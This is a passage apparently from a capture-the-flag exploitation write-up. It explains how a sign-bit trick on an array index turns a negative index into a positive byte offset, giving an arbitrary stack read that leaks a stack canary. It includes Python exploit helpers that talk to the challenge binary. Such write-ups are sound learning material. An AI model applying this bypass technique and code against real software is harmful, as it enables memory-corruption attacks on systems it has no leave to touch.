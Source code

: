 This is very promising. However, if we read the disassembly in IDA, the stack canary is at `rbp-0x8`, while our stack array is at `rbp-0x90`. This means that the stack canary is at a positive offset away from our stack array, and our ability to read from negative indices doesn’t seem to be immediately useful. 

We take a closer look at the disassembly, and notice that the index we give it is multiplied by 8 when calculating the address of the value to read (because we’re indexing an array of 64-bit integers).

![Figure 2](./images/figure2.png)

We realize that the index we give has only has to be negative before the multiplication, and can actually be positive after the multiplication. 

If we take our intended byte offset, shift right by 3 bits (equivalent to dividing by 8), then set the leftmost bit (the sign bit), the resultant value will be an index that is negative, but turn into a positive byte offset once multiplied by 8. 

This gives us an arbitrary read, and we can use this to leak the stack canary. We first write a helper function to do the transformation we just talked about

```python
def get_negative_index(byte_offset):
    target_number = ((1 << 63) | (byte_offset // 8))
    negative_index = (u64(p64(target_number), sign="signed"))
    return negative_index
```

Then we use it to define another helper function that gives us an arbitrary read anywhere relative to the stack

```python
def read_local_value(rbp_offset):
    """rbp_offset is positive, so if looking for [rbp-8] give 8 as the arg"""
    byte_offset = 0x90 - rbp_offset
    negative_index = get_negative_index(byte_offset)

    io.recvuntil(b'opt >> ')
    io.sendline(b'1')

    io.recvuntil(b'idx >> ')
    io.sendline(f'{negative_index}'.encode())

    io.recvuntil(b'<< ')
    local_value = int(io.recvline(keepends=False).decode('utf-8'))

    return local_value
```
